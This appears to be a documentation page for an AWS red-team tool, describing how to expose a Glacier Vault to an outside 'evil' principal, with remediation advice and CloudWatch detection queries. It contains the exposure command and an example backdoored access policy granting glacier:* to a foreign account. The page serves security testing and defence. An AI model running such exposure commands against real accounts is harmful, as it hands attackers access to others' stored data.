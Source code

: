 # Glacier Vault

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service glacier --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_ACCOUNT_ID=111122223333

aws glacier get-vault-access-policy \
    --account-id $VICTIM_ACCOUNT_ID \
    --vault-name test-resource-exposure
```

* Observe that the output of the overly permissive Glacier Vault Access Policies resembles the example shown below.


## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `glacier:*` permissions to the Glacier Vault named `test-resource-exposure`.

```json
{
    "policy": {
        "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"}]}"
    }
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that Glacier Vaults are only shared with trusted accounts, and that the trusted accounts truly need access to the Vaults.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Leverage Strong Resource-based Policies**: Follow the resource-based policy recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#leverage-strong-resource-based-policies)
* **Restrict access to IAM permissions that could lead to exposure of your Vaults**: Tightly control access to the following IAM actions:
      - [glacier:GetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-GetVaultAccessPolicy.html): _Retrieves the access-policy subresource set on the vault_
      - [glacier:ListVaults](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-vaults-get.html): _Lists all vaults_
      - [glacier:SetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-SetVaultAccessPolicy.html): _Configures an access policy for a vault and will overwrite an existing policy._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='glacier.amazonaws.com' and eventName='SetVaultAccessPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='glacier.amazonaws.com' and (eventName='SetVaultAccessPolicy' and requestParameters.policy.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [set-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/set-vault-access-policy.html)
* [get-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/get-vault-access-policy.html)